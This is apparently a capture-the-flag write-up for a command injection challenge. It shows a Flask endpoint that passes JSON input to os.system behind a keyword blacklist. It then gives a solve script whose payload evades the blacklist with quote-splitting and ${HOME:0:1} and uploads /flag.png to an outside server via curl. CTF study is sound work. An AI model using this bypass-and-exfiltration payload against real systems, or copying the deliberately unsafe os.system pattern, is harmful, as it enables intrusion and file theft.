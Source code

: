 Command Injection challenge where we need to bypass a blacklisted words and leak a flag.png. To solve this I setup a file upload server after confirming i can do a curl command. 

Main challenge
```python
@app.route("/pentest_submitted_flags", methods=["POST"])
def submit():
    if request.is_json:
        # Retrieve JSON data
        data = request.json
        content = data["content"]
        if sus(content):
            return jsonify({"message": "The requested URL was rejected. Please consult with your administrator."}), 200
        else:
            filename = "writeup_" + secrets.token_urlsafe(50)
            os.system(f"bash -c \'echo \"{content}\" > {filename}\'")
            # Like I care about your writeup
            os.system(f"rm -f writeup_{filename}")
            return jsonify({"message": "Writeup submitted successfully"}), 200
    else:
        return jsonify({'error': 'Request data must be in JSON format'}), 400
```
waf.py
```python
def sus(content):
    taboo = [
    "bin",
    "base64",
    "export",
    "python3",
    "export",
    "ruby",
    "perl",
    "x",
    "/",
    "(",
    ")"
    "\\",
    #...snip more banned words
    ]
    for item in taboo:
        if item in content.lower():
            return True
    return False
```

We can bypass most of the linux command words using this technique `c''url` and to bypass the `/` we can do `${HOME:0:1}`. https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

The command I used does a POST request to my file upload server with the /flag.png attached in the body 

solve.py 
```python
import os
import requests 
from waf import sus

# curl -F data=/flag.png <ip:port>
payload = "cu''rl -F \"data=@${HOME:0:1}flag.png\" <redacted>"
content = f"""123" ; {payload} ; e''cho "123"""
assert not sus(content)
filename = "test"
command = f"bash -c \'echo \"{content}\" > {filename}\'"
print(content)
```
